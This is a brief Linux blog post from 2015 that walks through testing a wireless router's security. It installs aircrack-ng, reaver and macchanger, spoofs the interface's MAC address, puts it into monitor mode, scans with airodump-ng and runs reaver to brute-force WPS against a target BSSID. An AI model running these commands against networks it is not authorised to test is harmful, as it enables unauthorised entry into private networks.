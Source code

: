 ```yaml
---
categories: ["Linux"]
comments: true
date: 2015-04-28T00:00:00Z
title: Use reave for testing wireless security
url: /2015/04/28/use-reave-for-testing-wireless-security/
---
```


For those who want to test the wireless security(Wireless Router), following is a serial of tools for automatically scan the WIFI and try to find the entrance to inner network.    
### Preparation
Install following packages:    

```
$ sudo apt-get install macchanger  aircrack-ng reaver

```
### Testing 
Suppose the wireless port in our equipment is mlan0, following are the detailed steps:     

```
# macchanger -m 00:11:22:33:44:55 mlan0
# airmon-ng start mlan0
# ifconfig mlan0mon down
# macchanger -m 00:11:22:33:44:55 mlan0mon
# ifconfig mlan0mon up
# airodump-ng mlan0mon
# reaver -i mlan0mon -b xx:xx:xx:xx:xx -vv -dh-small

```

